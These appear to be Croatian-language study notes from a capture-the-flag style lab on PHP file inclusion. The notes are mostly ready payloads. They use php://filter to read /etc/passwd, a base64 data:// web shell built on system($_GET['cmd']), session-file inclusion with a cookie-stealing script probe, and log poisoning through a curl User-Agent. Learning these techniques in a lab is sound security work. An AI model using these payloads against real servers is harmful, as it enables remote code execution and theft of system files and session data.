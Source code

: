 PHP wrappers
stavljamo php da bi se izvrsila php naredba nad nekom datotekom
php://filter/convert.base64-encode/resource=/etc/passwd
php://filter/string.tolower/resource=.htaccess

data:text/plain,<?php phpinfo(); ?>
Mozemo poslati i ovakav payload:
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+
enkodirani tekst je base64 kodirani php kod koji izgleda ovako: <?php system($_GET['cmd']); echo 'Shell done!'; ?> i sada pri pozivanju u pages, mozemo dodati argument &cmd=id
Primjer:
http://10.10.86.244/playground.php?page=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=id


PHP Session Files
Ovaj exploit se koristi ako imamo stranicu koja izvrsava parametre za dohvacanje, te mozemo  generiarirati datoteku phpinfo() koji ce biti spremljen u datoteci koji je naveden dolje
http://10.10.250.190/sessions.php?page=<?php echo phpinfo(); ?>
http://10.10.250.190/sessions.php?page=/var/lib/php/sessions/sess_[sessionID]

ako zelimo saznati session ID mozemo pogledati PHPSESSID u cookiesima ili napraviti ovakav input
http://10.10.250.190/sessions.php?page=%3Cscript%3Ealert(document.cookie)%3C/script%3E


Log Poisoning
Generalan naziv za tehnike preko kojih korisnik injecta naredbe u log datoteku i onda preko nje forsira njihovo izvršavanje.
Cilj nam je postaviti User-Agent polje da preko ovakve naredbe: curl -A '<?php system($_GET["cmd"]); ?>' IP | curl -H 'User-Agent: <?php system($_GET["cmd"]); ?>' IP
Nakon toga server loga te pokusaje i sada preko ovakvoga requesta mozemo vidjeti sto zelimo: http://10.10.86.244/playground.php?page=/var/log/apache2/access.log&cmd=whoami

